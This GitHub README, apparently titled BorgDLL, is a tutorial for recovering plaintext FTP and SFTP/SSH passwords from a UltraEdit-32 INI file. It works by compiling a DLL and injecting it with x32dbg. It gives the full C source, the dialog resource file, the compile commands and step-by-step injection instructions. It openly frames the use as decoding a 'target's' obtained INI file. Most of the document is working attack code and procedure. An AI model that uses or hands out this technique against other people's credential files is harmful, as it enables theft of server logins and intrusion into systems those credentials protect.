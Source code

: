 # BorgDLL
Using DLL injection to recover encoded credentials

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue99.png)

This example shows how to compile a Windows DLL and inject it using x32dbg into UltraEdit-32 verion 11.10b in order to expose the plaintext password from the encoded strings stored in the UEStudio.INI file.  This scenario is useful when you have obtained a target's INI file and you wish to recover the plaintext FTP and SFTP/SSH credentials from memory, rather than throw them at a honeypot.  The password encoding scheme is a complex proprietary obfuscation algorithm, so rather than port the algorithm to a scripting language, you can use this technique to turn your own installation of UltraEdit-32 into a personal decoder ring.  This example takes the UEStudio.INI file and loads it under the application installed on a Windows 7 Pro 32-bit VM.

The binaries that were reverse engineered for this demonstration are:<br />
```
uedit32.exe file ver 11.1.2.0 SHA1 = bea1b540a597f9750ccff19cea5615037ccd350d
ueres.dll file ver 11.1.2.0 SHA1 = f30c20e822630e8759c5ecf037fa23856aeb851b
```

UltraEdit-32 verion 11.10b looks like this when you launch it.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue00.png)

The application allows you to retrieve files to be edited via FTP or SFTP.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue01.png)

The password for a connection entry is encoded as 256 hexadecimal characters.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue02.png)

The dialog box resource where a user enters credentials is found in the `ueres.dll` file.  The following control IDs will be used in this example.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue03.png)

This is the dialog box resource file `showpw.rc` that will be used to display the plaintext credentials.

```
#include <windows.h>
#define IDD_DLGPASSWD 100
#define IDC_PLAINTEXT 1
#define IDC_OK 2

100 DIALOG 40, 40, 300, 110
STYLE DS_SETFONT | DS_SETFOREGROUND | WS_POPUP | WS_CAPTION
CAPTION "Password Decoder"
LANGUAGE LANG_ENGLISH, SUBLANG_ENGLISH_US
FONT 11, "Courier New"
{
   EDITTEXT IDC_PLAINTEXT, 11, 15, 280, 59, ES_LEFT | ES_MULTILINE | ES_AUTOVSCROLL | ES_WANTRETURN | WS_CHILD | WS_VISIBLE | WS_BORDER | WS_VSCROLL
   PUSHBUTTON "&OK", IDC_OK, 128, 84, 38, 12, BS_PUSHBUTTON | WS_CHILD | WS_VISIBLE
}
```

compile the above resource file like this:<br />
`i686-w64-mingw32-windres showpw.rc -O coff -o showpw.res`

This is the C program `showpw.c` that will be used to create the DLL.  It starts a thread on DLL_PROCESS_ATTACH when LoadLibrary is called from the debugger and monitors for changes in the "FTP Accounts" window.

```c
#include <windows.h>
#include <string.h>

#define IDC_PASSWORD 343 // "Password" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDC_USERNAME 134 // "Name" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDC_IPDOMAIN 342 // "Domain or IP Address" edit control from Dialog 161 Resource Hacker ueres.dll
#define IDD_DLGPASSWD 100
#define IDC_PLAINTEXT 1
#define IDC_OK 2

char sOutput[1000] = {0};

DWORD WINAPI pwthread(LPVOID lpParam);
BOOL CALLBACK DialogProc(HWND hwndDlg, UINT message, WPARAM wParam, LPARAM lParam);

DWORD WINAPI pwthread(LPVOID lpParam)
{
   HWND hWndDlg;
   char sEntry1[500] = {0}, sEntry2[500] = {0}, sPassword[500] = {0};
   char sDomain[200] = {0}, sUser[200] = {0};
   HMODULE hDll;

   while(1)
   {
      hWndDlg = FindWindow(NULL, "FTP Accounts");
      if(hWndDlg)
      {
         hDll = GetModuleHandle("showpw.dll");
         Sleep(1000);
         if(GetDlgItemText(hWndDlg, IDC_IPDOMAIN, sDomain, 190))
         {
            strncpy(sEntry2, sDomain, 195);
            if(GetDlgItemText(hWndDlg, IDC_USERNAME, sUser, 190))
            {
               strncat(sEntry2, sUser, 195);
               if(strncmp(sEntry1, sEntry2, 495))
               {
                  strncpy(sEntry1, sEntry2, 495);
                  if(GetDlgItemText(hWndDlg, IDC_PASSWORD, sPassword, 490))
                  {
                     strcpy(sOutput, "Domain/IP = ");
                     strcat(sOutput, sDomain);
                     strcat(sOutput, "\r\n");
                     strcat(sOutput, "Username = ");
                     strcat(sOutput, sUser);
                     strcat(sOutput, "\r\n");
                     strcat(sOutput, "Password = ");
                     strcat(sOutput, sPassword);
                     strcat(sOutput, "\r\n\r\n");
                     DialogBox(hDll, MAKEINTRESOURCE(IDD_DLGPASSWD), NULL, DialogProc);
                  }
               }
            }
         }
      }
      else
      {
         Sleep(1000);
      }
   }
   ExitThread(0);
}

BOOL CALLBACK DialogProc(HWND hwndDlg, UINT message, WPARAM wParam, LPARAM lParam)
{
   switch(message)
   {
      case WM_INITDIALOG:
         SetDlgItemText(hwndDlg, IDC_PLAINTEXT, sOutput);
         break;
      case WM_COMMAND:
         switch(LOWORD(wParam))
         {
            case IDC_PLAINTEXT:
               break;
            case IDC_OK:
               EndDialog(hwndDlg, wParam);
               return TRUE;
         }
   }
   return FALSE;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved)
{
   HANDLE hThrd;

   switch(dwReason)
   {
      case DLL_PROCESS_ATTACH:
         hThrd = CreateThread(NULL, 0, pwthread, NULL, 0, NULL);
         break;
      case DLL_THREAD_ATTACH:
         break;
      case DLL_THREAD_DETACH:
         break;
      case DLL_PROCESS_DETACH:
         break;
   }
   return TRUE;
}
```

compile the above source file like this:<br />
`i686-w64-mingw32-gcc -s -m32 -shared -Wl,--kill-at -o showpw.dll showpw.c showpw.res`<br />
then copy it to the Windows 7 VM.

On the Windows 7 VM, launch x32dbg, then from the menu go to File > Open, and navigate to `C:\Program Files\IDM COMPUTER SOLUTIONS\ULTRAEDIT-32` then select `uedit32.exe`

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue04.png)

The program will pause when the debugger attaches.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue05.png)

Restart the application with the command line changed to use the INI file you wish to load.  For example:<br />
`"C:\Program Files\IDM COMPUTER SOLUTIONS\ULTRAEDIT-32\uedit32.exe" /i="C:\Users\admin\Desktop\UEStudio.INI"`

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue06.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue07.png)

The program will pause again when restarted.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue08.png)

Click on the Run button in the debugger until the application starts.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue09.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue10.png)

Now go to the Symbols tab, right-click and Load Library.  Select the DLL you copied over.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue11.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue12.png)

The DLL will load and show up in the module list.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue13.png)

Click on the Run button in the debugger until the application starts.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue09.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue14.png)

Go to the application menu `File > FTP > Open from FTP` and click on the `Accounts` button.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue15.png)

As you cycle through the Account entries in the combo box you should see the credentials appear in the dialog box from the injected DLL.

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue16.png)

![alt text](https://github.com/billchaison/BorgDLL/raw/main/ue17.png)
